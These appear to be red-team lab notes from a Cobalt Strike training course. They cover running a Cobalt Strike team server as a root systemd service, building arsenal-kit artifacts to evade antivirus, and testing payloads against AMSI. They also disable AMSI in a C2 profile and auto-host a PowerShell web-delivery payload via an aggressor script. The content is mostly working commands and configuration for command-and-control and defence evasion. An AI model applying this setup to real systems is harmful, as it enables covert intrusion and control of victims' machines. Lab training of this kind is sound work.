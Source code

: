 ```
sudo vim /etc/systemd/system/teamserver.service
```

```
[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile
#ExecStartPost=/bin/sh -c '/usr/bin/sleep 30; /home/attacker/cobaltstrike/agscript 127.0.0.1 50050 headless Passw0rd! host_payloads.cna &'

[Install]
WantedBy=multi-user.target
```

```
sudo systemctl daemon-reload;sudo systemctl enable teamserver.service;sudo systemctl start teamserver.service;sudo systemctl status teamserver.service
```

# Create Listeners
[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/37750093-listener-management)



# AV Evasion

WSL
```bash
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/artifact
```

```shell
./build.sh pipe VirtualAlloc 277492 5 false false /mnt/c/Tools/cobaltstrike/artifacts
```

```shell
cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/resource
```

```bash
./build.sh /mnt/c/Tools/cobaltstrike/resources
```

Open script manager in CS and load

/mnt/c/Tools/cobaltstrike/artifacts/pipe/artifact.cna

/mnt/c/Tools/cobaltstrike/resources/resources.cna

Generate All Payloads and test with

```Powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\smb_x64.svc.exe
```

``` Powershell
C:\Tools\ThreatCheck\ThreatCheck\bin\Debug\ThreatCheck.exe -f C:\Payloads\http_x64.ps1 -e AMSI
```

WSL

```
vim c2-profiles/normal/webbug.profile
```

```
post-ex {
        set amsi_disable "true";
	    set spawnto_x64 "%windir%\\sysnative\\dllhost.exe";
        set spawnto_x86 "%windir%\\syswow64\\dllhost.exe";
}
```

```
./c2lint c2-profiles/normal/webbug.profile
```

```
sudo systemctl restart teamserver.service;sudo systemctl status teamserver.service
```



mimi
[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/41815529-mimikatz-kit)

Create Dcom jumper
[Red Team Ops - Zero-Point Security (zeropointsecurity.co.uk)](https://training.zeropointsecurity.co.uk/courses/take/red-team-ops/texts/39198081-jump-remote-exec)


```
vim host_payloads.cna
```

```
# Connected and ready
on ready {

    # Generate payload
    $payload = artifact_payload("http", "powershell", "x64");

    # Host payload
    site_host("10.10.5.50", 80, "/a", $payload, "text/plain", "Auto Web Delivery (PowerShell)", false);
}
```

Uncomment

```
sudo vim /etc/systemd/system/teamserver.service
```

